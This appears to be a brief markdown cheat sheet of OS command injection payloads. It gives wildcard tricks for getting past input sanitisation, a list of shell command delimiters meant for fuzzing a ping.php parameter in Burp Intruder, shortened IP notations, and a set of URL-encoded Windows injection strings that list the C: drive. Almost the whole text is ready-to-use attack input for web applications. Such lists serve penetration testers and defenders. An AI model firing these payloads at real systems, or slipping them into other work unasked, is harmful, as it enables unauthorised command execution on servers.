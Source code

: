 Attempt to bypass sanitization??
-----------------
```
/usr/bin/whoami
/u??/b??/wh?am?
```

Delimiters
------------------
```bash
# Use in Burp Intuder
# eg...
# ping.php?ip=127.0.0.1%20<delimiter>%20whoami
&
&&
|
||
%0a
;
^
%0D
%0A
\n
<
#
```
Interesting stuff
-----------------
```
# https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/
# https://github.com/sii/sipcalc
# linux only
ping 0
# Zeros are optional
ping 127.1
```
Windows
----------------------
```
+|+Dir+c:\
$+|+Dir+c:\
%26%26+|+dir c:\
$%26%26dir c:\
%0a+dir+c:\
+|+Dir+c:%255c
$+|+Dir+c:%255c
%26%26+|+dir c:%255c
$%26%26dir+c:%255c
%0a+dir+c:%255c
+|+Dir+c:%2f
$+|+Dir+c:%2f
%26%26+|+dir c:%2f
$%26%26dir+c:%2f
%0a+dir+c:%2f
+dir+c:\+|
+|+dir+c:\+|
+|+dir+c:%2f+|
dir+c:\
||+dir|c:\
```

